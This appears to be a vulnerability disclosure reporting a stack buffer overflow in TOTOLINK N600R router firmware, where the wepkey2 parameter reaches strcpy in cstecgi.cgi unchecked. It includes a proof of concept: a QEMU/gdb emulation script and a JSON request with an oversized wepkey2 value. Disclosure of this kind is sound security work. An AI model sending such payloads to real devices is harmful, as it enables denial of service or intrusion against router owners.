




# Bug Report: Buffer Overflow in TOTOLINK N600R Router
A buffer overflow vulnerability has been identified in the TOTOLINK N600R router firmware that allows remote attackers to potentially execute arbitrary code or cause denial of service through malformed HTTP requests.

## Vulnerability Details

### Product Information
- **Product**: TOTOLINK N600R Wireless Router
- **Affected Version**: V4.3.0cu.7866_B20220506
- **Download Source**: https://totolink.tw/support_view/N600R
- **Vulnerability Type**: Stack-based Buffer Overflow

## Description:
The vulnerable code within the setWiFiMultipleConfig function in cstecgi.cgi. It extract the `wepkey2` parameter into `src` and pass it into `strcpy` function without bound check. When `wepkey2` is specified with excessive data, the buffer overflow occurs during string concatenation operations.




## poc
We set a breakpoint before the strcpy call and examined the memory state both before and after the out-of-bounds write. The memory dump clearly demonstrates that a buffer overflow occurred.



## reproduce

```bash
./content_poc.sh
```
```bash
gdb-multiarch ./web_cste/cgi-bin/cstecgi.cgi
```

### wepkey2.sh
```bash
#!/bin/bash
chroot ./ ./qemu-mips-static\
        -E  CONTENT_LENGTH="990"  -g  123  -L  ./lib  \
        ./web_cste/cgi-bin/cstecgi_wepkey2.cgi  < wepkey2.json 
```

### content_poc.json
```json
{
    "topicurl" : "UploadCustomModule/setWiFiMultipleConfig",
    "doaction" : "1",
    "ssid2" : "11111111111111111111llllllllllllllllllllabcdDOIT",
    "wepkey2" : "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA",
    "keyFormat" : "3",
    "authMode" : "OPEN"
}
```